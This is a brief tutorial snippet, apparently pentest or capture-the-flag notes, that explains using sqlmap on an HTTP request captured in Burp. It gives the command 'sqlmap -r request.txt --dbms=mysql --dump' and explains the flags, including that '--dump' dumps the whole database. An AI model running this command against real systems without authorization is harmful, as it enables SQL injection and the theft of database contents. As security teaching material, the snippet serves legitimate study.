 We can use SQL Map with a captured HTTP request from burp. Once the request is captured, write it to a text file. Now we run 
```sqlmap -r request.txt --dbms=mysql --dump```

**--dbms** is the type of the data base.
**--dump** tells us to dump the whole DB.
